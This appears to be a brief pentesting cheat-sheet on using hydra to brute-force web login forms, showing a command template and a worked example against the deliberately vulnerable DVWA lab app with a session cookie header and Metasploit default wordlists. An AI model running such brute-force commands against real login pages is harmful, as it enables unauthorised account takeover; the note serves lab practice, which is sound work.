 ## hydra
### http-get-form
Refs:
* <https://youtu.be/3pSjwLbdxLA>
* <https://securitytutorials.co.uk/brute-forcing-web-logins-with-dvwa/>

Typical layout of the command is as follows
```
hydra -L <USER> -P <Password> <IP Address> http-post-form “<Login Page>:<Request parameters/body>:<Error Message>”
```
Lets, take a typical case of bruteforcing the dvwa app. Here, we are already logged-in. Therefore, we have to send the cookies along with our hydra command. In order to include cookies we use header tag `H:`

```
hydra -L username1 -P password1 10.10.10.107 http-get-form '/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect:H:Cookie: security=low; PHPSESSID=aa324b92c3da5e8d7b63d594750ff63b'
```
We can also use following wordlists :
* `usr/share/wordlists/metasploit/http_default_users.txt`
* `usr/share/wordlists/metasploit/http_default_pass.txt`

